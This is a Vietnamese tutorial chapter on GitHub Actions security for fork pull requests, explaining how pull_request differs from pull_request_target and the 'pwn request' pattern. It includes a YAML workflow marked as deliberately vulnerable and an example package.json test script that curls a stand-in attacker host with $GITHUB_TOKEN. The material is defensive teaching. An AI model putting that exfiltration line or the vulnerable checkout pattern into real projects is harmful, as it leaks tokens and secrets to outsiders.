

# PR từ fork, pull_request và pull_request_target

Repo public thì ai cũng đọc được, và ai cũng có thể **fork** (*rẽ nhánh*: chép repo của bạn sang tài khoản của họ), sửa bất cứ thứ gì, kể cả file workflow, rồi mở pull request vào repo của bạn. Bài này giải thích GitHub bảo vệ bạn thế nào trong trường hợp đó, và cách duy nhất bạn tự phá bỏ lớp bảo vệ ấy.

## 1. Code của PR là code **untrusted**

Code trong một PR từ fork là **untrusted** (*không đáng tin*): do người bạn không biết viết, chưa ai review. Họ có thể sửa `package.json` để `npm test` chạy một lệnh gửi biến môi trường đi đâu đó, hoặc sửa thẳng workflow.

Vì vậy với event `pull_request` từ fork, GitHub tự áp ba lớp bảo vệ:

- workflow **không nhận** secret của repo bạn (chương 4, mục "Ai không nhận được secret");
- GITHUB_TOKEN **chỉ có quyền đọc**, dù workflow xin `pull-requests: write` hay `contents: write`;
- với người lần đầu đóng góp, workflow **chờ** maintainer bấm **Approve and run** mới chạy (tuỳ cài đặt **Settings** → **Actions** → **General** → **Approval for running fork pull request workflows**).

Nhờ vậy, kẻ xấu có sửa workflow trong PR thì code của họ cũng chạy trên một runner **không có gì đáng lấy**.

## 2. `pull_request_target`: cùng lúc, khác hẳn quyền

`pull_request_target` cũng chạy khi có PR, nhưng khác ở hai điểm quan trọng:

| | `pull_request` | `pull_request_target` |
| --- | --- | --- |
| File workflow được dùng | Bản **trong PR** (người mở PR sửa được) | Bản trên **nhánh chính của bạn** (người mở PR không sửa được) |
| Code mặc định được checkout | Code **của PR** (gộp thử với nhánh chính) | Code **nhánh chính của bạn** |
| Secret với PR từ fork | **Không** | **Có** |
| GITHUB_TOKEN với PR từ fork | Chỉ đọc | **Có quyền ghi** theo `permissions` |
| Dùng cho | Build, test code của PR | Việc **không chạy code của PR**: gắn nhãn, bình luận chào mừng |

`pull_request_target` tồn tại để làm những việc cần quyền ghi trên PR từ fork (ví dụ gắn nhãn `needs-review`) **mà không cần chạy code của PR**. Vì workflow và code đều lấy từ nhánh chính của bạn, người lạ không chen được code của họ vào. An toàn, **cho tới khi** bạn tự checkout code của PR.

## 3. Mẫu nguy hiểm: "pwn request"

```yaml
# NGUY HIỂM: đừng chép đoạn này
on: pull_request_target

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v7
        with:
          ref: ${{ github.event.pull_request.head.sha }}   # code của người lạ
      - run: npm ci && npm test                          # chạy code đó, có secret trong tay
```

**Đọc hiểu**

- `on: pull_request_target`: có secret, có token quyền ghi.
- `ref: ${{ github.event.pull_request.head.sha }}`: bảo checkout lấy **commit của PR**, tức code của người lạ, thay cho code nhánh chính.
- `npm ci && npm test`: chạy code đó. Người mở PR chỉ cần sửa `package.json` thêm một dòng `"test": "curl https://ke-xau.example/?t=$GITHUB_TOKEN"`, hay một script cài đặt chạy trong `npm ci`, là lấy được token có quyền ghi và mọi secret của job.

Mẫu tấn công này có tên **pwn request** (*pwn* là tiếng lóng "chiếm quyền", ghép với *pull request*). Đây là lỗi có thật, đã làm lộ secret và token của nhiều dự án mã nguồn mở lớn.



## 4. Quy tắc

| Việc cần làm trên PR | Event nên dùng |
| --- | --- |
| Build, test, lint code của PR | `pull_request` |
| Gắn nhãn, bình luận, **không** đụng code của PR | `pull_request_target` cũng được, nhưng không checkout `head`, không chạy script nào từ PR |
| Vừa chạy code PR, vừa cần secret | Tách hai bước: test bằng `pull_request`; phần cần secret chỉ chạy sau khi merge (`push` lên `main`) hoặc sau khi maintainer duyệt (environment, chương 4) |

**Quy tắc cho track này:** dùng `pull_request` để kiểm tra PR. **Không dùng `pull_request_target`.** Cả dự án cuối cũng vậy.

## 5. Sai lầm thường gặp

| Nghĩ sai | Thật ra |
| --- | --- |
| "Repo của tôi nhỏ, chẳng ai tấn công." | Bot quét GitHub tự động tìm workflow có mẫu ở mục 3, không cần biết bạn là ai. |
| "Tôi kiểm tra `if: github.actor == 'an'` là đủ." | Điều kiện kiểu này dễ bị qua mặt (ví dụ khi bạn chạy lại một job do người khác kích hoạt). Đừng dựa vào nó để chạy code lạ với secret. |
| "Đổi `pull_request` sang `pull_request_target` để PR từ fork có secret là xong." | Đó chính là cách tạo ra pwn request. |

## 6. Ngoài thực tế

Dự án mã nguồn mở nhận PR từ người lạ mỗi ngày. Họ chạy test bằng `pull_request` (không secret), bật **Require approval** cho người mới, và mọi việc cần secret (deploy, đăng package) chỉ chạy trên `main` sau khi maintainer đã review và merge. Ở công ty, repo thường private và không nhận fork từ ngoài, nhưng quy tắc vẫn được giữ để một repo lỡ chuyển sang public không thành lỗ hổng.

## 7. Khi bị lỗi

| Lỗi | Vì sao | Cách sửa |
| --- | --- | --- |
| PR từ fork: step dùng secret báo rỗng | Đúng thiết kế: fork không nhận secret | Đừng cần secret khi test PR; chuyển phần đó sang sau khi merge |
| PR từ fork: `Resource not accessible by integration` khi bình luận | Token của PR từ fork chỉ đọc | Bỏ việc bình luận trên PR từ fork, hoặc hỏi mentor cách làm an toàn |
| Workflow của PR từ fork không chạy | Đang chờ maintainer duyệt (người mới) | Maintainer bấm **Approve and run** sau khi đọc diff |
| Lỗi khác, hoặc chưa hiểu vì sao | | Nhắn mentor của track, công khai hay **nhắn riêng** đều được (tab **Cài đặt** → "Hỏi ở đâu") |

## Tóm tắt

- PR từ fork là code untrusted; với `pull_request`, GitHub giữ lại secret và hạ token xuống chỉ đọc.
- `pull_request_target` có secret và token ghi, nên tuyệt đối không checkout và chạy code của PR trong đó.
- Track này: test PR bằng `pull_request`, không dùng `pull_request_target`.
